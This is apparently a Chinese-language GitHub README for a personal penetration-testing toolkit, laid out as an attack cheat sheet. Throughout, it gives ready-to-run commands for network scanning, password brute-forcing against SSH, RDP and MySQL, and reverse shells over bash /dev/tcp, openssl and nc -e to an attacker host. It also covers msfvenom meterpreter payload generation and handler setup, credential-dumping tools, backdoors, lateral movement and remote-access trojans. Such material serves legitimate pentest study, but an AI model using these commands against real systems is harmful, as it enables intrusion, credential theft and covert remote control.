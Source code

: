 安全测试工具集
======

简介
------

在学习和渗透测试过程中自己写的一些小脚本、小工具和一些常用字典、木马。

# ++++++++++++++++++++++++++++++++++++分割线++++++++++++++++++++++++++++++++++++

## 其他工具渗透测试速查清单

站点信息收集
Google
Fofa
Shodan
Zoomeye
Goby
whatweb
Github
robtex

快速探测存活主机
nmap

nmap 172.18.2.1/24 -sS -Pn -n --open --min-hostgroup 4 --min-parallelism 1024 --host-timeout 30 -T4 -v -oG result.txt
nmap 172.18.2.1/24 -sS -Pn -n --open --min-hostgroup 4 --min-parallelism 1024 --host-timeout 30 -T4 -v -oX result.xml
nmap -sS -Pn -n --open --min-hostgroup 4 --min-parallelism 1024 --host-timeout 30 -T4 -v -oG result.txt -iL ip.txt

格式化输出存活ip，做后续详细扫描使用
https://github.com/echohun/tools/blob/master/web%E6%89%AB%E6%8F%8F/nmap_clean_data.py

-sS：使用SYN方式扫描，默认用的是-sT方式，即TCP方式，需要完成完整的三次握手，比较费时，SYN就比较快一些了；
-Pn： 禁用PING检测，这样速度快，并且可以防止有些主机无法ping通而被漏掉不扫描；
-n： 禁止DNS反向解析；
–open： 只输出检测状态为open的端口，即开放的端口；
–min-hostgroup 4：调整并行扫描组的大小；
–min-parallelism 1024：调整探测报文的并行度；
–host-timeout 30：检测超时的跳过
-T4：总共有T0-T5，貌似T4比较折中
-v：打印详细扫描过程
-oG：输出为比较人性化的格式，一条记录一行，后期好处理
-iL：载入ip段文件，批量扫，不用一条条执行了。

ipscan

快速探测端口
masscan的发包速度非常快，在windows中，它的发包速度可以达到每秒30万包；在Linux中，速度可以达到每秒160万。masscan在扫描时会随机选择目标IP，所以不会对远程的主机造成压力。
https://www.freebuf.com/sectool/112583.html
masscan 172.18.2.1 -p1-65535 --rate=10000
masscan -p80,8080-8100 10.0.0.0/8 -oL result_mas.txt --rate=10000
masscan -p80,8080-8100 10.0.0.0/8 -oX result_mas.txt --rate=10000

邮箱搜集工具
EmailSniper


子域名收集
SubDominscanner

指纹收集
whatweb -v http://baidu.com


web目录扫描
御剑
Dirbuster
https://www.jianshu.com/p/79c7b1eda56e
webpathbrute

漏洞扫描 
wvs
burpsuite
nessus
 

爆破
hydra
hydra -V -l fakeroot -P top100.txt 172.18.2.177 ssh
hydra -V -l admin -P top100.txt 172.18.2.177 rdp
hydra -V -l root -P top100.txt 172.18.2.177 mysql
ncrack
ncrack -vv -d10 -user root -P top100.txt 172.18.2.177 -p ssh -g CL=10,at=3
ncrack -vv -d10 -user root -P top100.txt 172.18.2.177 -p mysql -g CL=10,at=3
medusa
medusa -v 6 -h 172.18.2.177 -u fakeroot -P top100.txt -M ssh -t 10 -O out.txt
medusa -v 6 -h 172.18.2.177 -u root -P top100.txt -M mysql -t 10 -O out.txt


漏洞利用
metasploit
burpsuite
sqlmap


webshell
菜刀
蚁剑
冰蝎
cobalt strike

反弹shell
普通shell
bash -i >& /dev/tcp/HOST/PORT 0>&1

加密shell
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
openssl s_server -quiet -key key.pem -cert cert.pem -port 4444
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 192.168.xx.xx:4444 > /tmp/s; rm /tmp/s

nc
攻击机 nc -lvp 4444
靶机 nc -e /bin/bash xx.xx.xx.xx 4444

提权
sudo提权
各类exp
metasploit
本地漏洞扫描工具
windows/linux exploit suggester


本地口令获取和破解
mimikatz
Mimipenguin
LaZagne
http://next.uuzdaisuki.com/2019/12/07/%E4%B8%A4%E6%AC%BE%E5%AF%86%E7%A0%81%E6%8F%90%E5%8F%96%E5%B7%A5%E5%85%B7%E7%9A%84%E9%85%8D%E7%BD%AE%E5%92%8C%E4%BD%BF%E7%94%A8/
hashcat+口令字典
http://next.uuzdaisuki.com/2020/07/28/%E5%93%88%E5%B8%8C%E5%AF%86%E7%A0%81%E7%88%86%E7%A0%B4%E5%B7%A5%E5%85%B7hashcat/

--hash-type 0 --attack-mode 0
-m选择哈希类型
1000为windows nt hash
-a选择模式
0 Straight（字典破解）
1 Combination（组合破解）
3 Brute-force（掩码暴力破解）
6 Hybrid dict + mask（混合字典+掩码）
7 Hybrid mask + dict（混合掩码+字典）

本地信息收集
linuxprivchecker
LinEnum

后门
常见后门手法
metasploit
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=170.170.64.17 LPORT=4444 -f elf -o reverse_tcp_linux64
msfvenom -p windows/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=4444 -f exe -o reverse_tcp.exe
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST xxx.xxx.xxx.xxx
set LPORT 4444
run
python直连反弹shell
http://next.uuzdaisuki.com/2018/06/17/%E5%9F%BA%E4%BA%8Epython%E7%9A%84%E7%9B%B4%E8%BF%9Eshell%E5%92%8C%E5%8F%8D%E5%B0%84shell/
其他语言直连反弹shell
windows常见奇淫技巧后门手法
http://next.uuzdaisuki.com/2018/06/18/windows%E5%B8%B8%E7%94%A8%E5%90%8E%E9%97%A8%E6%8A%80%E6%9C%AF%E5%8F%8A%E9%98%B2%E8%8C%83/

内网横向渗透
Hydra
nessus
metasploit
nmap
powersploit
Empire
Psnmap
lcx
ew
tunna
proxychains
FRP
N2N

arp欺骗
Cain
Arpspoof

远控
pupy类远控
teamview
pcanywhere
radmin
手机端
DroidJack
Dendroid

